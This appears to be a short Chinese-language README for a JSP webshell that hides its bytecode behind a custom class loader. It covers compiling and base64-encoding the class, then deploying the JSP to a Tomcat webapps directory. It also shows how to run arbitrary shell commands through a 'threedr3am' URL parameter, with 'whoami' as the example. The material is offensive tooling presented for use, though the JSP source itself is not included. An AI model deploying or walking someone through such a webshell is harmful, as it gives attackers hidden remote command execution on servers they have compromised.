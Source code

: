 ### 自定义类加载器的JSP Webshell

生成字节码：
```
javac Threedr3am_2.class
java Threedr3am_2
cat Threedr3am_2.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问2.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/2.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```
